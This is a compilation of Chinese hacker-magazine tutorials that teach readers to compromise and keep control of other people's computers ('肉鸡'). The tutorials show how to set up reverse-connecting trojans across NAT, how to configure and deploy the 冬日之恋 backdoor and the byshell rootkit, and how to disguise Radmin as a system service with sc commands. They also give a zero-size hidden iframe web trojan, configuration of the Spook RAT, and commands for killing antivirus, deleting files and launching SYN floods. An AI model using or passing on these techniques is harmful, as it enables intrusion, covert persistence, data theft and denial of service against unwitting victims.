然后回到“站点推广”这一项，不难看出内网建站专家提供的不同服务是对应不同端口的，比如：WWW 对应 80 端口，FTP 对应 21 端口，TELNET 对应 23 端口……如果你只选用 WWW 服务，那么内网建站专家只为你提供 80 端口的服务，也就是说外网的机器只能访问你的 80 端口。按住 Ctrl 全选时，外部机通常就可以访问你机器的所有端口了，如图3。提供的端口虽然不少，但还真找不到 8000，那我们就把灰鸽子的自动上线端口改成以上的任一端口，比如 23 端口（这个端口一般不会冲突，没有哪个个人用户会开 TELNET 服务吧），然后点自动上线，填上域名和密码。在“修改您的 URL”栏里填：“内网建站域名:23”，这里填的是：woaixdangan.dhcn.net:23，如图4。

## 第一种方式：在主控机上运行辅助软件

#### 一、内网建站专家 + 灰鸽子 VIP200（反向连接）

相信看过《X 档案》2004 年第 2 期的读者都记得阿九写的那篇“局域网控制局域网”吧，他们的战术是“内网建站专家实现的灰鸽子 VIP1.1 的内网自动上线”，今天我们就来重温这一经典组合。辅助软件虽然还是内网建站专家，可是由于灰鸽子的升级，使用方法自然也有所不同。

首先到 http://www.sharella.com/register/，点“申请内网专业服务试用”，注册一个域名。注册成功后会提示你注册信息已经发到你的信箱，我们到邮箱里找注册码，然后安装、运行内网建站专家，在注册栏里填上注册码，如图1。


填完再点“开通”，然后再点“站点推广”。这些提供的服务最好按 Ctrl 全选上，也可以有选择性地选择，至于如何选择我稍后再讲，如图2。

然后打开灰鸽子，注意：在默认情况下，灰鸽子是不允许上线的，因为灰鸽子默认的监听端口是 8000，而内网建站专家是没有提供这个端口服务的。我们打开：http://www.sharella.com/products/g2lan.asp#5。


点“更新 IP 到域名”，把木马经过各种途径传出去，用不了多长时间就会有中招的，连接一下，功能完全正常，唯一不足的是 IP 显示的是 127.0.0.1。不过相对于突破内网后的喜悦，这点不足又算什么呢？如图5。

#### 二、内网动态域名 + 黑洞2005（反向连接）

以前，能用来实现内网自动上线的也只有灰鸽子一个，因为那时候只有灰鸽子是用一个端口传输数据。随着网络技术的发展，越来越多的远程控制软件都吸取了这一优秀特性，例如黑洞。我这里使用的是黑洞 2005 专业版演示版 Build20050315 和内网动态域名。内网动态域名是不同于内网建站专家的又一内网建站软件，个人认为无论是从方便性还是实用性，内网动态域名都要优于内网建站专家，原因如下：

- 1. 可以自定义本机上开放的端口。  
- 2. 无连接数限制。内网建站专家允许的最大连接数是 100，如果肉鸡多于 100，使用起来就不方便了。  
- 3. 便于申请，试用期是 7 天，内网动态域名一个用户可以申请多个域名。想要多申请需先申请邮箱。  
- 4. 体积小巧，免安装，占用系统资源少。  


到此就配置成功了。回到“管理动态域名”页面，可见 A 记录指向内网动态域名服务器 IP（如 210.22.12.55），端口（如 5831）对应服务端口。通过 VID 可在服务器与本机间建立通道，把目标端口映射到本机端口（示例为 2005），随后相关数据会自动转发到本机对应端口。


下面讲使用方法：先到 `http://www.dns0755.net/ddns/usr_reg1.php` 注册用户。注册成功后申请内网试用二级域名并填写所需信息。成功后在域名管理页面可见相关界面（如图6）。

这里端口名后面的栏位是自定义名称（示例填写 HEIDONG），修改后保存并返回动态域名页面。下载并运行相关程序（如 CMXNatProxy.exe，见图7）。在后续步骤中填写已申请域名、密码及本机带宽参数。


关键步骤是把左侧任意端口名改为自定义名称，并把对应端口改为上线端口（示例由默认改为 2005），然后继续下一步并确认（图9）。


- 1. 不用找内网做中转站；  
- 2. 中转站带宽大、速度快；  
- 3. 中转站稳定，24 小时在线。  

#### 三、内网通（truehost）+ pcshare（反向连接）

内网通是内网动态域名的另一个版本，偏向专业站点自动上线场景。自动上线时需填写“域名:端口”，并配合反弹木马可显示被控机真实 IP（而非 127.0.0.1）。注册后可直接进入管理动态域名页面，将域名转为内网专业版。

pcshare 功能强、体积小、操作简。示例版本为 PcShare 2005 Build0427 免费版。安装运行后填写域名和密码并增加域名，重启后查看日志。若出现“域名：woaixdangan.dns0755.net 登录成功”等提示即说明成功。pcshare 默认自动上线端口为 80。

由于 pcshare 未提供转向域名自动上线，可配合 FTP 自动上线。可申请免费空间并通过 URL 转发到本机 IP，以完成外部访问。

然后就是设置自动上线了，我们点刷新 IP，填上用户名和密码。可是当我想在刷新 IP 地址里填 `woaixdangan.dns0755.net` 时却发现根本填不下，原来 pcshare 的作者在设计时只想到在刷新 IP 地址里填上 IP，所以最多只能填 15 位。而我那个域名是填不下的，所以只好手工更新了。新建一个文本文档，在里面填上“woaixdangan.dns0755.net:80”，然后另存为——所有文件——`ip.rar`。再打开 FlashFXP，连接我们的空间，把 ip.rar 上传上去，如图14。


图13


图14

然后就是把服务端发给别人运行等上线了。不一会儿就来了几个，看，IP 全是真实 IP 吧，如图15。


图15

### 第三种方式：在线第三方机器运行辅助软件

#### 一、VIDC + 流萤（反向连接）


图12

不得不承认 VIDC 确实是一款经典的软件，它利用端口映射的原理使外网访问内网变得简单而且快捷。我使用的是 VIDC1.2。流萤是国产新兴的反弹木马，功能强大，速度一流。首先我们要有一台有外网 IP 的肉鸡，能上传文件和执行命令。至于你是用 WebShell 还是用其它木马，各位就各显其能了。我们打开 VIDC 的压缩包，解压后里面用到的文件有两个：vidcs.exe 和 vidcc.exe。vidcs.exe 是服务端，需要上传到肉鸡上运行；vidcc.exe 是控制端，在本机上运行。我们来看 vidcs.exe 的运行格式：`vidcs.exe -p端口 -s密码`，密码是在 web 连接时用的，这里可以不设。我们把 vidcs.exe 上传到肉鸡上，在 shell 里运行：`vidcs.exe -p7777`，如图16。


图16

然后就可以在本机连接了。运行 vidcc.exe，在 VIDC 服务 IP 里输入肉鸡 IP，VIDC 服务端口输入刚才设置的端口，我设置的是 7777；BIND 端口输入你要在肉鸡上映射的端口，我输入的是 2000，因为流萤的默认上线端口是 2000；映射端口是映射到本机的端口，我这里也填 2000，然后点 Bind 按钮，如图17。


图17

映射成功后，所有发向 218.72.173.120 的 2000 端口的数据全部都转发到本机的 2000 端口上。我们打开流萤，点击“开始监听”，如图18。然后点配置服务端，由于流萤没有提供转向域名的自动上线，我们只有用 FTP 自动上线了。填上 FTP 服务器地址、用户名和密码，IP 地址里填 218.72.173.120，点“更新”按钮，如图19。


图18


图19

成功后把服务端发给别人，一会儿就上线了。当然，IP 也定是 127.0.0.1。

#### 二、Portmap + Radmin（正向连接）

Portmap 的工作原理是端口重定向，与 VIDC 不同的是它必须运行在被控电脑的网关上才能实现内网互控，而 VIDC 是 C-S 模式（客户端-服务端），Portmap 是单一软件，运行后做数据转发。Radmin 就不用说了吧，速度较快的远程控制软件，工作特稳定，占用系统资源少。首先，我们在被控机上运行 Radmin 服务端，被控机内网 IP 是 192.168.0.2。我们在被控机的网关上运行 Portmap。运行后点“增加”，在名称里可以随便填，我这里填的是 radmin，点击输入 IP 后的下拉箭头，会看到四个选项，如图20。


218.18.21.22 是网关的外网 IP，如果选择此项，那么只有访问 218.18.21.22 才能进行数据转发，也就是外网的机器可以连接；同理如果选择了 192.168.0.1，那么只有局域网的机器才能连接；如果选择了 127.0.0.1，那么只有本机才能连接。而选用 Any IP，则无论是局域网还是外网或是本机都可以连接，所以我们这里选择 Any IP。输入端口是在网关上开放的用于数据转发的开始端口，只要不冲突，可以随便填，我这里填的是 2005；输出 IP 填被控机的内网 IP——192.168.0.2；输出端口填 Radmin 的连接端口，我这里是 4899，如图21。


然后点“确定”，启动。启动成功后就在网关和被控机之间建立一个通道，所有发往网关 2005 端口的数据全部自动转发到 192.168.0.2 的 4899 端口上。我们在主控机上运行 Radmin 控制端，然后新建连接，IP 填 218.18.21.22，端口填 2005，如图22。


连接，成功，如图23。至于速度，用 Radmin 连接还用怀疑速度吗？当然，如果不方便在图形界面下操作，也可以用 Fpipe 等在命令行下进行数据转发，这里就不做介绍了，请读者自行查阅相关资料。


### 一、VNN + DameWare（正向连接）

前面几个软件多多少少都有一点端口映射的影子，而这里讲的 VNN 是这样一个软件：它可以将互联网上任意两台能上网的机器虚拟成为同一局域网的两台机器。基于它的这个特性，它可以和任意一款远程控制软件组合实现内网互控，不管是正向连接还是反弹连接，不管是一个端口还是多个端口。


我这里只使用 DameWare 做演示。DameWare 就不用说了吧，功能强大的远程控制软件，我这里用的是：DameWare Mini Remote Control V4.5.0.0 汉化版。首先要在被控机上下载安装运行 VNN。先注册一个用户，注册格式：“用户名.user.vnn.cn”。我这里注册的是 woaixdangan.user.vnn.cn，如图24。


注册完登录上去，登录成功后在 VNN 主面板右上角显示的 IP 就是电脑在虚拟局域网中的 IP，如图25。


然后在主控机上也下载安装运行 VNN，当然也是先注册一个用户。注册完登录后点密友名单，把被控机上的 VNN 用户加为密友，这时就会在主界面上出现被控机的在线情况和虚拟局域网中的 IP，如图26。

然后就可以用 DameWare 连接了，我们来试一下 DameWare 的远程安装。呵呵，不同局域网可以远程安装，爽吧！如图27。


图27

点连接，如图28。


图28

呵呵，跟平时看到的一样吧，由于我这是演示，就不做隐藏了，如图29。


图29

### 二、麦秀工具箱 + VNC（正向连接）

麦秀工具箱其实也是一款内网建站软件，商家对它的描述是：只要能上网，就能建网站。也就是说无所谓内网还是外网了。麦秀工具箱里内置的远程控制组件集成了 VNC，用 VNC 远程控制，速度当然也要“快”了。下面我们来认识它。首先在被控机上下载安装麦秀工具箱，第一次运行首先注册一个用户，如图30。

这个用户是永久免费的哦，注册完毕后，它会提示你下载组件，里面有论坛、相册、网络硬盘、远程控制、远程桌面等，如图31。


图30


图31

然后就可以连接了。先说远程控制，在主控机上下载专用的控制端，下载地址：http://你的用户名.myshow.cn/VNC/myShowVNC.exe。这个必须是你的网站在线（即你登录成功时）才能下载，当然你也可以登录到 www.myshow.cn 随便找一个在线的网站下载。下载完打开，在麦秀域名里填：用户名.myshow.cn，密码是注册用户的密码，如图32。


图32

点确定，填上密码就可以连接了，如图33。至于连接速度，还是留给读者自己感受吧。下面讲一下文件传输。登录 woaixdangan.myshow.cn，点网络硬盘，它会提示你登录一次，登录完成后点上传，就可以传文件了，和 FTP 差不多，如图34。


图33


图34

到此，内网互控就告一段落了。我总结了几个不同的辅助软件、不同连接方式的内网互控方法。目的不仅仅是为了告诉大家这几种方法，而是为了让大家建立一种思想，明白内网——外网——端口——正向连接——反向连接的关系、区别以及利用。学过物理光学的人可能都知道这么一句话：光路是可逆的。借用这一句话总结这么一个规律：连接线路是可逆的。在以上的组合中，如果原本是反向连接，我们在主控机上安装正向连接的服务端，就可在被控机上对主控机进行正向连接；原本是正向连接，我们在主控机上安装反向连接的服务端，就可以在被控机上等待主控机的反向连接。所以说，以上的组合不一定一成不变，也可以在主控机和被控机上都安装 VNN 实现感染端的自动上线，也可以在被控机上运行内网动态域名，用 Radmin 正向连接，也可以在自己网关上运行 Portmap 进行端口重定向实现黑洞自动上线，及在被控机上运行 VIDC，用 VNC 正向连接……真正掌握了这些规律，你会发现内网互控是那么简单而且有趣。

另外要提的是 WebMyPC 也可以实现内网互控，但是只能试用 3 天，不购买的话实用性不大，并且如果没有安装 JAVA 虚拟机，还需安装 JAVA 虚拟机。那个安装过程漫长得实在令人无法忍受，等安装好了，连黄花菜都凉了，所以就不介绍了。还有一种方法是用路由器做端口映射，由于条件所限，这里也不做介绍了，有兴趣的读者请查阅网上教程。

（本章中涉及到的程序大约于 2005：内网建站专家、黑洞 2005 专业版、内网动态域名、内网通、pcshare、VIDC、流萤、Portmap、Radmin、VNN、VNC，已经收录在光盘中。）

### 很简单之冬日之恋——黑客X档案特别版

柯少

对于“菜鸟们”来说，要想长期地拥有肉鸡，就必须留一个强壮的后门在肉鸡上。但是现在人们的安全意识也普遍增强了，几乎每台机器上都安装了杀毒软件和防火墙。所以要留后门，还不是简单地放一个在上边就可以完事的（让对方的杀毒软件查不出来的后门可不是轻易搞到的）。有能耐的自己写出后门当然好，可是对于大多数不会写的菜鸟兄弟呢？那么今天，我就给大家带来一款免杀的后门——冬日之恋。这可是黑客 X 档案特别版哟，网上没有的，是作者专门给 X 制作的……小菜们，你们今天可有福了！

先来看看我们的 X 特别版的冬日，如图1，是不是比平时网上公布的普通版本好看许多呢？

好了，界面好看也不是重要的，来看看具体的使用方法吧。这里插入一段小插曲，简单介绍一下冬日之恋的主要特性：

- 1. 插入进程：可插入 `explorer.exe`、`svchost.exe`、`winlogon.exe`。  
- 2. 采用了端口复用技术，可以使用 80、21 等端口。  
- 3. 采用映射技术，将肉鸡动态 IP 变化问题处理。  
- 4. 增加服务自启动。  
- 5. 生成服务端，包含 DLL。  
- 6. 具有自动下载运行的功能。  


图1

## 牧马记

- 7. 图形界面下传输文件，比进入 CMD 下麻烦的操作方便了初学者。
- 8. 辅助工具——比如 IPC、扫描、端口扫描的辅助工具。
- 9. 命令的使用——这要等别人中了“冬日之恋”之后使用的操作命令（后面的教程会介绍）。

现在来配置一下它的基本信息，点击第二个“基本设置”栏目，如图2。


在“基本设置”里，“端口”我们随意设置，默认是 3043。假若我们的肉鸡是服务器，我们不妨使用 80 端口，这样会相对隐蔽，并且可以轻易逃过防火墙。“密码”就自己写了，“密码提示”和“命令提示符”一般默认不用改。在“IP邮件发送”里，这里的信息就要认真填写，并且不可以填错，不然你的肉鸡就会跑了（因为你收不到信件，就不知道肉鸡的 IP，那就无法连接你的后门了）。这里我推荐大家就用 163 的邮箱，能比较快收到信件，也还算稳定。具体怎么填写，就不用我教了吧，自己看看就懂。

在“服务设置”里，“服务名”“服务描述”“服务显示”都可以任意填写，最好写得迷惑点，让别人不容易发现。“下载者功能”的作用是自动下载程序运行，你喜欢就用，我感觉作用不大。在“插入进程”里可以选择一个进程，然后插入，我选择的是 Winlogon.exe，生成的 DLL 我写的是 Explorer.dll。配置完成后，点击“生成服务端”，可以先测试一下后门是否正常使用。底下有个“测试DLL”按钮，点击一下，弹出一个小框框，如图3。


然后输入你刚才给 DLL 起的名字，我设置的是 Explorer.dll，按下“确定”，会弹出提示框，告诉你可以 telnet 测试了，如图4。


然后我们进入 CMD，Telnet 看看。telnet 的时候记得要加上刚才你设置的端口，如图5。


在 password 提示后输入密码，就可以进入 shell 了，成功后会出现提示符号“[root]#”，如图6。好了，我们需要在 shell 下操作了（嘿嘿，你们有没有看过电视上的黑客么？他们都是在黑黑的屏幕上，敲打一串串的代码的……）。命令的使用也很简单，各位可以看看它的“帮助”栏目，如图7，这里我就不废话了。


我们还是在肉鸡上来做具体的使用演示吧！至于我们刚才在自己电脑上的测试，只要把“冬日之恋”软件关闭，刚才测试的后门就自动从自己的电脑上卸载了。

我找了网吧的一台肉鸡测试一下我们的后门，给肉鸡上传“服务端EXE.exe”和刚才我们生成的“Explorer.dll”，要把两个文件放到同一目录下。其中，“服务端EXE.exe”可以自己任意改名，DLL 则不可以更名。在许多网吧中，都还存在 ms04-011 以及 ms04-007 漏洞，这两个漏洞的使用详见以前的《黑客X档案》。溢出成功得到对方的 shell 后，如何将程序上传到对方的电脑里，请详见本期的菜鸟学堂。

运行上传上去的服务端程序，然后我们就可以 telnet 对方的 3043 端口了。具体操作几个命令给大家看看。telnet 成功后，输入密码，进入 `[root]#`，要转到 cmdshell，就输入 shell，如图8。


> **小提示：**如果在 cmdshell 下返回 `[root]#` 状态，就输入 `exit`；若要退出这个后门，就在 `[root]#` 下输入 `quit`。前面介绍的后门命令，必须在 `[root]#` 模式下使用。

下面我把一些常用的命令举例子，简单列表如下：

```bash
[root]#starttln      # 开启 telnet 服务
[root]#fpass         # 重置当前登录用户的密码（用于 Win2000/Win2003）
[root]#fluser        # 列举用户及 SID
[root]#fdir          # 类似 DOS 下的 DIR 命令
[root]#fdel c:\boot.ini   # 删除文件（类似 DELETE）
[root]#exc c:\setup.exe   # 运行程序
[root]#fcd c              # 切换目录（类似 CD）
[root]#remove             # 创建后门（重启后生效）
```

```bash
[root]#clone hack1
[root]#ps
[root]#kp 1124
[root]#ks Messenger
[root]#pss
[root]#sock5 8080
[root]#http 8000
[root]#ftp hack1 hack2 c:\ 21
[root]#opents 3389
[root]#closets
[root]#sfile 3046
[root]#admin hack1 hack2
[root]#duser hack1
[root]#syn 192.168.1.2 80
[root]#udp 192.168.1.2 80
[root]#listport
```

这里已经说得很明白了，我们再看程序界面里“传输文件”。以前都在 CMD 下操作很麻烦，现在可以在图形界面里操作了，如图9。


分为发送（上传）和接收（下载到本地）。我们试传 `MT.EXE` 到对方，选择“开启”后切换到对方 CMD 查看是否上传成功，如图10。


上传成功。还有其它一些操作限于篇幅不再继续介绍，读者可自行应用；如有问题可到 `www.hackerxfiles.net` 讨论。


byshell——一款内核级的 rootkit，能实现无进程、无 DLL、无硬盘文件、无启动项的后门程序。以前曾用过这款 rootkit，不过版本是 0.63 和 0.64 的，当时感觉这类 rootkit 多的是，也没多大特色，就没去认真留意。这两天想在安全焦点网站找个后门用用，又发现了 byshell，版本是 0.67 beta2，看来的确有点来头，还是内核级别的后门。

### 一、网络连接

实现在 2000/XP 下重复使用任意原有 ring3 进程打开的、防火墙允许的网络端口，尤其是 IIS 等网络服务程序打开的网络端口（如 80、21、135，像 139 一类的内核开的端口除外），从而可以穿过各种软件和硬件防火墙、边界路由器乃至 NIDS。在 Win2003 下，不能够用普通方法使用 IIS6 打开的端口，由于微软做了位移并入了内核。这里作者为我们专门提供了 IIS6 专用客户端，但是在 IIS6 上实现的后门传输较慢，所以大家还是不要在这个专用 shell 上传文件，也不要提供大于 100 字节的输入。

> **小插曲——ring3 为何物？**  
> Intel 的 CPU 将特权级别分为 4 个级别：RING0、RING1、RING2、RING3，Windows 只使用其中的两个级别 RING0 和 RING3。此 rootkit 是一个测试中的 ring3 NT rootkit，级别是较高的，难怪有内核 shell 之称。

### 二、自身隐藏

该程序利用线程注入 DLL 到系统进程，解除 DLL 映射，并删除自身 DLL 和 EXE 文件，删除自身创建的服务，仅仅存在于内存中。于是在寄主机器上无法找到任何新增服务项、磁盘文件或者足迹进程空间里的不明 DLL。

关机时，该程序会于关机时调用，在系统关闭之前恢复自己（嘿嘿，没有一定功底的人，想手动清除，可不是简单的事情）。不过，有个不知道是 bug 还是作者的 feature，作者在说明中说到“如果对方不正常关机，会使后门消失”，会不会成为一个极简单的清除此后门的方法呢？

好了，听了一大堆优点，还是让我们自己来亲身体验一下吧！首先把你的肉鸡翻出来，登录肉鸡。此 rootkit 分为客户端和服务端，并不是平时直接用 telnet 或者 nc 连接的。现在把服务端 ntboot.exe 和 ntboot.dll 放到肉鸡同一目录下，在 CMD 下执行 `ntboot.exe -install`。安装完成后，要自己删除安装文件，如图1。


安装服务端的另外一种方法：直接在肉鸡上运行作者提供的 setup.bat，也可以完成服务端的安装。setup.bat 代码如下：

```bash
ntboot -remove
ntboot -install
del ntboot.exe
del ntboot.dll
del setup.bat
pause
```

然后，在自己的电脑上使用客户端来连接。用于连接服务端肉鸡的客户端也有两个：一个是 067cli，是一般的客户端；另外一个 067iis6cli 是连接 IIS6 的专用客户端（注意：朋友们不要随便给那个 DLL 加壳，如果你改变了 DLL 的 imagesize 大小，就必须重新编译 ntboot.exe）。

进入 CMD，然后执行 067cli.exe，就会出现提示“please input the server ip address”，输入肉鸡的 IP 地址；接着出现“please input the server port”，再输入连接端口。这里我输入 80（你想用 21 或者 135 或其它的也可以，不过也得开放这些端口）；密码默认输入 by，连接上出现 `#`。若要进入 cmdshell，就输入 shell；要返回 `#` 提示符，就键入 endshell，如图2。

好了，我们来看看它的一些基本功能（其实功能不是很多，不过常用的基本功能还是具备的，因为这根本上不是一个远程控制木马，毕竟这是一个 rootkit，轻巧、隐蔽才是其特性）。


对肉鸡系统信息了解的命令有两个：byver（查看连接的服务端版本）和 sysinfo（取得对方的一些系统信息），可以看到肉鸡有多少个硬盘分区、计算机名、内存大小、系统版本等，这对我们了解肉鸡有一定方便之处，如图3。

通常我们的肉鸡上会安装有杀毒软件或者防火墙，如果要 kill 掉它们，也是轻而易举的事情。此 rootkit 集合了 pslist（列举进程）和 pskill（杀掉进程）功能，使用格式：在 `#` 符号下输入 pslist，就可以列举出肉鸡上的所有进程及进程的 PID 号；然后你要想结束哪个进程，就输入 pskill + PID 号。例如：`pskill 2002`。


图3

- get：在本机的连接上下载远程文件，命令格式：`get 本地保存文件名 远程下载文件名`  
  例：`#get c:\file1.txt d:\aa.txt`
- put：在此软件的连接上向远程上传文件，命令格式：`put 远程保存文件名 本地上传文件名`  
  例：`#put d:\file2.txt c:\aa.txt`

如图6。最后，还有个功能，作者说仅供测试使用，是 SYN 攻击，希望大家不要用于非法用途（注意：该功能不支持 Windows XP SP2），SYN 使用如下：


图6

- SYN 测试对象IP 测试的分钟数 IP伪造类型（可选参数，0是完全伪造，1是C段伪造，2是不伪造，默认0）；每发多少个包休息一次（默认为100个）；攻击对象端口（可选参数，默认为80 WWW端口）；使用的端口（可选参数，0是随机变化，默认为0）。
- 例：`#SYN 182.18.1.52 15`
- 例：`#SYN 182.18.1.52 15 1`
- 例：`#SYN 182.18.1.52 15 0 1000`
- 例：`#SYN 182.18.1.52 15 1 200 445 12345`
- queryDOS：查询服务端 SYN 攻击测试的详细情况。
- endDOS：强制结束服务端的 SYN 作业。

把 PID 为 2002 的进程结束掉。啊啊，这样，防火墙、杀毒软件，就让我们 kill 掉了，嘿嘿，看你能奈我何？！如图4、图5。


图4


图5

还有个功能，就是重启对方机器命令，很简单，命令就是：reboot。

以下我介绍比较重点的功能。有了后门，当然要可以上传、下载文件啦。不过文件大小有限制，太大的文件会出错。一般只用来上传一些远程控制软件的服务端，来更直观地管理、操控肉鸡，这里我解释下：

最后说说此 rootkit 支持本机测试，若本地测试了想删除，方法如下：重启到安全模式，执行 `ntboot -remove` 就可以了。

个人感觉这个 rootkit 速度快、少 bug、稳定。大家看完，是不是感觉自己的肉鸡不再轻易丢失了呢？嘿嘿，那就赶快给你的肉鸡多上一层后门吧，有不明白的可以到 X 档案的论坛咨询。

（本文涉及到的软件 byshell 无盘有收录）

### 手工修改木马服务端

首先说说 Radmin。Radmin 真是个好东西，我也是最近才发现这个东西的优点，譬如不被杀、管理方便、速度也很快、配置简单……反正我是看到很多管理员用这个的。尽管是个好东西，但缺点还是有的，譬如那个服务名就很显眼，进程里的 R_server.exe 更是被人见到就杀。现在菜鸟管理员也知道用任务管理器去查杀进程，配置的时候如果出错也很容易被发现，并且它的图标也很有个性，有个性就容易被发现……但是，本着我对 Radmin 的热爱，还是要把这个好东西从管理员的眼皮底下挽救回来，改造成属于自己的终极木马。至于如何挽救这个好马，那就跟我来看着吧！

Radmin 的配置我就不细说了，以前的黑 X 上已经说得很清楚了。网管想看到的东西你不要让他看到就可以了。我们知道 Radmin 只需 R_Server.exe、AdmDll.dll 和 raddrv.dll 这三个文件就可以安装，所以你首先要将这几个文件传到对方机器上。你可以先在自己的机器上配置好，然后导出 `[HKEY_LOCAL_MACHINE\SYSTEM\RAdmin]` 下的内容，再传到别人机器上导入，Radmin 就跟你机器上配置是一样的了，因为 Radmin 服务依赖的东西都在这项下面。注意不要任务栏显示，不要日志记录，然后修改自己的密码什么的，基本就可以了。我配置的如下：

```text
HKEY_LOCAL_MACHINE\SYSTEM\RAdmin
HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.03
```


```text
[HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server]
[HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\IpList]
[HKEY_LOCAL_MACHINE\SYSTEM\RAdmin\v2.0\Server\Parameters]
"NTAuthEnabled"=hex:00,00,00,00
"Parameter"=hex:...
"Port"=hex:8b,05,00,00
"Timeout"=hex:0a,00,00,00
"EnableLogFile"=hex:00,00,00,00
"LogFilePath"="c:\logfile.txt"
...
```

```text
smssvc.exe /service   // 修改其二进制路径
net start sysmonlog   // 启动服务
sc delete r_server    // 删除原 Radmin 服务
```

这样就完成替换了，现在看着吧，怎么样？`net stop r_server` 没有这个服务了吧，但端口还在监听。连接看看，还可以连上。修改到这里，Radmin 在系统里已较难被发现。

这样配置的密码是 jnc，端口是 1419。注册表文件导入后，按需改密码和端口即可。注意 Radmin 是按注册表加载服务参数，修改注册表前需先停止服务再启动，避免不生效。

关于服务隐藏：可将木马服务伪装为系统服务名称，通过修改可执行文件路径实现“借壳”。文中示例推荐利用 `sysmonlog`（“配置性能日志和警报”）服务进行替换。


假设已安装 Radmin，原服务名 `r_server.exe`。停止后将其改名并替换为 `smssvc.exe`，再用 `sc` 命令重配服务。

```text
sc config sysmonlog start= auto
sc config sysmonlog binpath= "c:\winnt\system32\smssvc.exe"
```

```text
sc config sysmonlog start= auto
sc config sysmonlog binpath= "c:\winnt\system32\smssvc.exe"
net start sysmonlog
sc delete "Windows Kernel Service"
```

按上述思路删除伪装痕迹后，服务可继续工作。文中还提到可进一步修改显示名、程序名细节等方式提升隐蔽性。


还可调整图标、端口回连方式等。最后建议将相关程序做进一步封装处理。

## 牧马记

弗兰克99168

放假了，今天抽了点时间制作了几个网页木马，效果都不是很好，主要是隐蔽性差，容易被人发现。我琢磨了一个下午，终于制作出了一个隐藏性比较理想的网页木马……

- 冰狼浪子网页木马生成器（或其它可用生成器）
- 网页编辑器（FrontPage 或 Dreamweaver）
- 一张图片（用于迷惑）
- 木马程序（QQ盗号或远控）

首先把木马复制到生成器目录并改名为 `*.exe`，双击生成器后得到 `icyfox.htm` 和 `icyfox.js`，然后上传到空间。

下面我们打开网页编辑器，新建网页，点击“插入”→“图片”，打开插入图片对话框，选择图片并确定。然后进入代码编辑窗口，插入一个嵌入式框架，长宽都设为 0，并链接到 `icyfox.htm`。

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN"
  "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title></title>
</head>
```

```html
<table>
  <td height="0" style="border: 2px dotted #999999">
    <IFRAME align=center name="target" frameBorder=0 height=0 scrolling=no src="http://www.hnsy3088.net/asp/icyfox.htm" width=0></IFRAME>
  </td>
</table>
<body>

</body>
</html>
```

把 `http://www.hnsy3088.net/asp/icyfox.htm` 改为你配置好的 `icyfox.htm` 网络路径，`hehe.jpg` 改为准备好的图片。保存为所有文件并命名为 `XXX.gif`，上传后访问即可触发。

现在养马真是越来越不容易了，不是被杀软拦截就是被防火墙拦住。作者更偏好反弹类型木马，因为可减少主动连接暴露风险，并介绍了较满意的木马：Spook。

使用 Spook 前需准备更新 IP 文件（如 `spook.jpg`）并上传到空间，不需要 ASP 支持；还需要 FTP 账号密码。Spook 为绿色免安装木马，可在 Windows98/2000/XP/2003 运行。

可以看到界面中有多个文件，`server` 是服务端，使用前需要用客户端进行配置。`Spook` 是客户端，`Clear` 是清除程序，用于清除被中招的电脑，另外还有帮助文件、程序 DAT 数据文件及配置文件（INI）。首先打开客户端程序，如图2。

我们先配置木马服务器程序，在工具栏点“配置”→“配置服务器端”，我们在“服务端程序”上输入解压 Spook Server 文件在计算机上的物理地址，比如我的是：`C:\Documents and Settings\Administrator\桌面\Spook5.1\Server.exe`。“HTTP 网页地址”处填写 IP 地址文件上传到自己空间的访问地址，我的是：`http://127.0.0.1/bbs/spook.jpg`。“监听端口”和“连接密码”不需要多说，自己设定就可以了，我用的默认设置，端口：5678，密码：123。

“安装路径”，这里选择服务端程序的工作“场合”，有两个选择：“Windows”文件夹下和“System”文件夹下，我选择的是“Windows”。“辅助目录”这项可以不用填写，但如果为了安全还是多一步为好，现在一些杀毒软件会监视系统目录的变化，一旦发现系统目录中文件发生变化，杀毒软件就有可能会提醒用户，但是在其它目录下安装文件报警的几率就相对少了许多，所以大家可以在“辅助目录”中选择新的安装路径。但是注意在“辅助目录”中选择的文件夹必须是系统存在的目录，在文件夹名后面要加上“\”号，比如：`help\`。

下面还有“注册表启动名称”、“程序安装名称”、“安装的服务名称”、“服务显示名称”、“安装的服务描述”、“设置上线标识”这项，除了最后一项“设置上线标识”大家按默认配置就行，不过也可以自己设置，反正你能设置骗过管理员的眼睛就行了。“设置上线标识”是指当一台肉鸡上线后在客户端显示的标识，让我们知道是哪台肉鸡上线了，比如：dog的电脑。另外程序在随系统启动方面：Windows98 下是添加注册表启动项来启动，在 Windows2000 等 NT 系统是作为服务来启动的。配置完成后如图3。

配置完“服务器端”我们接着配置“FTP 上线设置”，依次点击“配置”→“FTP 上线设置”。“FTP 地址”处写入自己申请到 FTP 空间的主机地址，可以是域名可以是 IP，比如我的是：`localhost`，“端口”是 21，这个不会变的，“FTP 帐号”、“FTP 密码”自己搞定，我的是 FTP 帐号：dog，FTP 密码：dog。

“存放 IP 的文件”处，为了方便就用默认的文件吧：`spook.jpg`。“远程 FTP 路径”这里写入 `spook.jpg` 的 FTP 路径，我的是 `wwwroot/bbs/spook.jpg`。顺便说下，我的 FTP 根目录在 `wwwroot/bbs` 下，并把 `spook.jpg` 文件上传到了根目录下。“本机 IP 地址”处写入自己计算机在网络上的 IP 即公网 IP，若是内网 IP 可以用端口映射工具。配置好如图4。

现在我们点“生成更新的 IP 文件”（此时没什么反应），然后再点“更新 IP 地址到空间”，都没什么问题的话会显示成功，如图5。

但是我在本机测试时则显示如图6。我后来发现这样还是可以成功和服务端连接，我们干脆这样来证明是否成功：用浏览器打开 IP 更新文件，若显示了 IP 地址就成功了，如图7。

都配置好后，我们就可以把服务端程序打到肉鸡上并运行它了。在肉鸡上成功运行后，我们开始在本地监听，在工具栏上进行“操作”→“设置监听”，打开“监听”设置框，如图8。

填好正确的反弹端口和连接密码，点下“开始监听”按钮就开始监听连接本机的肉鸡了，连接成功后如图9。

从图中我们知道一些肉鸡的信息，如肉鸡的 IP、肉鸡的物理位置（真实地址）、上线的时间、上线标识等。现在我们开始对肉鸡进行一些操作。

- 上传、下载、删除、改名和运行文件等多项文件操作功能，在下载远程文件时支持断点传输。
- 执行一些 DOS 命令，可以回显执行后的输出结果。
- 可以查看肉鸡的屏幕，并可以将图像保存为 BMP 文件。

